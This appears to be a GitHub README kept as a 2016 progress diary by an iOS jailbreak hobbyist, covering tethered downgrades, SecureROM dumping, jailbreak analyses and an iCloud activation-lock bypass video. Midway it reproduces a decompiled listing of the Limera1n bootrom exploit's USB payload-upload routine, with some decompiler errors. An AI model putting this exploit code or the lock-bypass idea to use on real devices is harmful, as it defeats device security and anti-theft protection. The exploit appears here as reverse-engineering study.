



# Apple iOS Security - Derek Foresman 

[© 2016 MTAC](https://twitter.com/mtac8 "MTAC Twitter")


This is the repository that I will be using to document my progress and maintain the code used in my private iOS 10.X jailbreak and resources and research used for jailbreaks for previous versions of iOS.

# Daily Update

* Thursday, December 8th - 5:45 PM - Editing another voice over on the iBoot and tethered downgrade of an iPod Touch 4G. Same method as the iPhone 4, but a little bit easier because it doesn't have to have the baseband downgraded as well. The baseband is the cellular modem of the device which allows for it to communicate with the cell towers. Just like the actual iOS firmware itself, the baseband must be signed as well, and during the process of downgrading it must be resigned to work with the lower iOS version.

* Thursday, December 8th - 3:00 PM - I successfully downgraded an iPhone 4 from iOS 7.1.2 to iOS 4.3.3. It is amazing that this method I used actually worked for once. This is normally not allowed by Apple by any means, but since it is tethered I could do it. Unfortunately, every time the device runs out of battery or reboots, it must be booted via a computer each time.




* Thursday, December 8th - 1:15 PM - I finished the video, and now I am trying to tether downgrade an iPhone 4 from iOS 7.1.2 to iOS 4.3.3.

* Thursday, December 8th - 11:15 AM - I started to try and shoot a better video of the iOS 4.3.3 jailbreak on an old iPod Touch 4G. The reason I chose this device was when it is booted by redsn0w, the tethered boot utility by [iH8sn0w](http://twitter.com/ih8sn0w), it runs with verbose boot enabled. This is the best way to boot a device, because it shows all the processes in the background.

* Wednesday, December 7th - 6:30 PM - The windows partition on my laptop which I needed to downgrade a test iPhone, became corrupted, and therfore; I could't boot into Windows. I had to reinstall which meant swapping many drives in and out, so it was a little unproductive, but I needed to do this in order for my collab to be successful.


* Wednesday, December 7th - 2:30 PM - 

* Wednesday, December 7th - 12:00 PM - Another small update, planning on doing something like this [here](http://www.pmbonneau.com/apple/ios/multiboot_a.php), I have done it before, just comparing my method to this one.

* Wednesday, December 7th - 11:15 AM - Small update, iPhone rebuild video live [here](https://youtu.be/wEIcuRnknt8)

* Wednesday, December 7th - 10:30 AM - I rebuilt the phone after taking it apart to get to the bootrom. I made a short video showing exactly how intricate the internals of an iPhone are. I made it into a timelapse because it takes very long to put in multiple tiny screws, and is therefore boring when in full time.


* Wednesday, December 7th - 9:00 AM - I am starting on trying to dump the SecureROM of an iPhone 4 on iOS 7.1.2. I disassembled the iPhone to get to the logic board, where the bootrom is soldered on. This is difficult because there are very tight metal shield plates covering each chip to protect from damage and radio interference. I will need to make a custom device that can connect to the pins of the bootrom but not remove it from the board so I can still boot the iPhone and get debugger data.

* Tuesday, December 6th - 7:30 PM - I found a few phones to test my iBoot exploit on both 32 and 64 bit from iPhone 3 to iPhone 7




* Tuesday, December 6th - 6:45 PM - The price of a SecureROM dump kit is not as bad as I had originally considered. If I can find the funds, I plan on buying it because I can use one of my old iPhone 5S's as a test for bootrom dumps. Image credit - [https://ramtin-amin.fr/](https://ramtin-amin.fr/)


* Tuesday, December 6th - 4:15 PM - Started research on the SecureROM's part in the upgrade and therefore downgrade of iOS devices. This specific chip did not exist on the logic board before iOS 7 and the introduction of the iPhone 5S. The iPhone 5S was the first 64 bit iPhone, which leads me to believe that SecureROM can only be utilized by modern phones that are 64 bit. If this is the case, older iDevices (everything up until iPhone 5S and iPad Air) can be exploited due to their lack of a SecureRom.

* Tuesday, December 6th - 3:00 PM - I recently cooperated with Lucas Peruzzi on a Cydia tweak called Janus for iOS, which helped with the backing up and restoration of tweak settings and themes. He goes by [@iOSResearchr](https://twitter.com/iOSResearchr). He agreed to answer questions as he knows quite a bit about factory and custom iOS firmwares as well as some low level stuff. We both have found iBoot exploits when working together.


* Tuesday, December 6th - 1:30 PM - I finished my voiceovers for both of my videos. I hope they are enough to explain the technical aspect of what goes on in each video. I found an article on [/r/jailbreak](http://reddit.com/r/jailbreak) that mentioned the dumping of the SecureROM. Apple offers $200,000 for a dump of SecureROM, but it often requires expensive custom jigs.

* Tuesday, December 6th - 11:15 AM - Didn't have official meeting for collab, but I am continuing on blog posts. I started the recording of my voice overs and tryign to learn to edit the audio onto the video.

* Monday, December 5th - 2:00 AM - I still need to finish my voice overs of my iCloud Bypass and my iBoot exploit, so I worked on disassembling Evasi0n for iOS 6.1.2. This jailbreak changed the way jailbreaks work. Evasi0n was the first to attack AMFI instead of trying to patch around it. This changed in iOS 6.1.3 and higher as Apple patched the jailbreak in the next firmware update.

* Monday, December 5th - 11:30 AM - Small update, but iOS 10.1.1 iCloud Lock Bypass video finished processing and is live on YouTube [Here](https://www.youtube.com/watch?v=Cg8FAgkW9wI&feature=youtu.be "YouTube")

* Monday, December 5th - 11:15 AM - I started editing the video for my lockscreen bypass that was found over the weekend. When a new iPhone is sold, it is locked to a user's account. If the user loses his or her password, the device becomes a paperweight unless proof can be given to Apple. A lockscreen bypass circumvents this, and is a major security risk, which is why it will be patched in the next update to iOS. This flaw is very similar to ones in the past where random characters in a text field overflow the allocated memory causing the setup app to crash. This is nice for me too because this gives me an opportunity to learn a little video editing while I am at it.


* Monday, December 5th - 9:30 AM - I contacted Johnathan Levin about the purchase of his book on iOS Internals. Further research also provided me with Black Hat 2016 [remote web-based sandbox escape](https://www.blackhat.com/asia-17/briefings/schedule/#remotely-compromising-ios-via-wi-fi-and-escaping-the-sandbox-5284) for iOS by Marcos Grassi. This will help me greatly because I still need a web exploit for my jailbreak to be used by just visiting one website. 

* Friday, December 2nd - 2:00 PM - I looked at the code from the [Limera1n exploit](https://www.theiphonewiki.com/wiki/Limera1n_Exploit) made by [Geohot](https://en.wikipedia.org/wiki/George_Hotz). The code for the exploit is very short considering the amount of power a user as with this exploit as it is for iBoot and cannot be patched by a simple iOS software update. 

```
signed int __cdecl upload_exploit() {
    int device_type;
    signed int payload_address;
    int free_address;
    int deviceerror;
    char *chunk_headers_ptr;
    unsigned int sent_counter;
    //int v6;
    signed int result; 
    //signed int v8;
    int recv_error_code;
    signed int payload_address2;
    signed int padding_size;
    char payload;
    char chunk_headers;
    //int v14;
    //v14 = *MK_FP(__GS__, 20);
    device_type = *(_DWORD *)(device + 16);

    if ( device_type == 8930 ) {
        padding_size = 0x2A800;
        payload_address = 0x8402B001;
        free_address = 0x8403BF9C;
    } else {
        payload_address = 0x84023001;
        padding_size = 0x22800;
        // free_address = (((device_type == 8920) – 1) & 0xFFFFFFF4) – 0x7BFCC05C;
        if(device_type == 8920) free_address = 0x84033FA4;
           else free_address = 84033F98;
    }

    memset(&payload, 0, 0x800);
    memcpy(&payload, exploit, 0x230);

    if (libpois0n_debug) {
        //v8 = payload_address;
        fprintf(stderr, 1, "Resetting device counters\n");
        //payload_address = v8;
    }

    payload_address2 = payload_address;
    deviceerror = irecv_reset_counters(client);

    if ( deviceerror ) {
        irecv_strerror(deviceerror);
        fprintf(stderr, 1, &aCannotFindS[12]);
        result = -1;
    } else {
        memset(&chunk_headers, 0xCC, 0x800);
        chunk_headers_ptr = &chunk_headers;

        do {
            *(_DWORD *)chunk_headers_ptr = 1029;       
            *((_DWORD *)chunk_headers_ptr + 1) = 257;
            *((_DWORD *)chunk_headers_ptr + 2) = payload_address2;  
            *((_DWORD *)chunk_headers_ptr + 3) = free_address;
            chunk_headers_ptr += 64;
        } while ((int *)chunk_headers_ptr != &v14);

        if (libpois0n_debug)
            fprintf(stderr, 1, "Sending chunk headers\n");

        sent_counter = 0;
        irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);
        memset(&chunk_headers, 0xCC, 0x800);

        do {
            sent_counter += 0x800;
            irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);
        } while (sent_counter < padding_size);

        if (libpois0n_debug)
            fprintf(stderr, 1, "Sending exploit payload\n");

        irecv_control_transfer(client, 0x21, 1, 0, 0, &payload, 0x800);

        if (libpois0n_debug)
            fprintf(stderr, 1, "Sending fake data\n");

        memset(&chunk_headers, 0xBB, 0x800);
        irecv_control_transfer(client, 0xA1, 1, 0, 0, &chunk_headers, 0x800);
        irecv_control_transfer(client, 0x21, 1, 0, 0, &chunk_headers, 0x800);

        if (libpois0n_debug)
        fprintf(stderr, 1, "Executing exploit\n");

        irecv_control_transfer(client, 0x21, 2, 0, 0, &chunk_headers, 0);
        irecv_reset(client);
        irecv_finish_transfer(client);

        if (libpois0n_debug) {
            fprintf(stderr, 1, "Exploit sent\n");
            if (libpois0n_debug)
                fprintf(stderr, 1, "Reconnecting to device\n");
        }

        client = (void *)irecv_reconnect(client, 2);

        if (client) {
            result = 0;
        } else {
            if (libpois0n_debug) {
                recv_error_code = irecv_strerror(0);
                fprintf(stderr, 1, &aCannotFindS[12], recv_error_code);
            }
            fprintf(stderr, 1, "Unable to reconnect\n");
            result = -1;
        }
    }

    // compiler stack check
    //if (*MK_FP(__GS__, 20) != v14)
    //    __stack_chk_fail(v6, *MK_FP(__GS__, 20) ^ v14);

    return result;
}
```

* Friday, December 2nd - 12:00 PM - I started the editing of a video that I plan on showing how and iBoot eploit works.

* Friday, December 2nd - 9:30 AM - Trying to broaden my creative aspect with a video I made of my iBoot exploit in action. This was taken on an iPhone 4s, running iOS 7.1.2 when booted.


* Friday, December 2nd - 3:30 AM - After multiple attempts (the log file shows 108 attempts) I finally got iOS 7.1.2 on an iPhone 4 to boot into verbose mode. In order for verbose mode which is the scrolling text, an iBoot exploit must be used. iBoot cannot be patched by a software update, because the only way to modify its code is to either release a new version of the iDevice or to have a special tool that is illegal to possess unless you are Apple. There are exploits in iBoot that are read only, which means, no matter the iOS version on the read/write memory, a jailbreak exists for the device. [iBoot Verbose Boot Video](https://youtu.be/tCmHcDsoe7s)

* Thursday, December 1st 2016 - 4:30 PM - I continued to reverse engineer Apple File Conduit. I used open source tools like [libimobiledevice](http://www.libimobiledevice.org/) and [libirecovery](https://github.com/libimobiledevice/libirecovery) to find how the computer communicates over USB with the iBoot/iBSS on the iDevice. I also started to look into hardware based exploits like those for iBoot, like Limera1n, and SHAtter.


* Thursday, December 1st 2016 - 2:30 PM - I changed the direction of the day a little bit by starting to disassemble the binaries of the processes used by iTunes on a desktop operating system, that are responsible for the transfer of files over usb to specific directories on an iDevice. I loaded it into Hopper Disassembler to view the process behind the compiled binary since the source of it is owned by Apple and currently unavailable to the public.


* Thursday, December 1st 2016 - 1:30 PM - Reaching out to Jeff Benjamin [@JeffBenjam](https://twitter.com/JeffBenjam) of [9to5mac.com](https://9to5mac.com/). Jeff and 9to5Mac cover the most recent updates in the jailbreak scene. For people looking for more information on jailbreaking, [this](https://9to5mac.com/guides/jailbreak/) post provides useful information on the comcept. Check this page for the most accurate updates.


* Thursday, December 1st 2016 - 11:30 PM - Started reaching out to developers of popular Cydia tweaks. I have previously recorded podcasts with prominent developers like William Vabrinskas [@william_vab](https://twitter.com/william_vab), Matt Clarke [@matchstic](https://twitter.com/_Matchstic), Andy Wiik [@Andywiik](https://twitter.com/Andywiik), Brian Olencki [@bolencki13](https://twitter.com/bolencki13).

* Wednesday, November 30th 2016 - 10:45 AM - Continued the review of [TaiG's](http://taig.com "TaiG Jailbreak") tool from the article [here](http://www.newosxbook.com/articles/TaiG2.html "The Annotated guide to TaiG"). The intentional abuse of internal Apple tools and services to reach arbitrary code execution. In the case of TaiG for iOS 8, the use of AFC or Apple File Conduit which is an internal service built into applications like iTunes, and responsible for the transfer of files from a computer to the filesystem of an iDevice over a USB cable with the use of USBMux. Examined the difference in modified AMFI.kext responsible for file signature checks on iOS 7.1.2.


* Wednesday, November 30th 2016 - 10:00 AM - Started the analysis of [TaiG's](http://taig.com "TaiG Jailbreak") tool used in the iOS 8.1.3 through iOS 8.4 jailbreak. I will be comparing the different exploits and methods used from each jailbreak for modern(ish) versions of iOS (6-10). Next step - Reach out to Jonathan for a possible interview. N.B. FileMon is amazing.



* Wednesday, November 30th 2016 - 9:15 AM - Compiled [Jonathan Levin's](https://newosxbook.com "Newosxbook.com") Jtool for ARM Cortex-A9 processor architecture on iPhone 4s for debugging of 32 bit binaries. Once compiled, I set up necessary keys for SSH access to iPhone 4s over wifi.


* Tuesday, November 29th 2016 - Started Github Repository to document my progress and manage all the code needed for my independent project


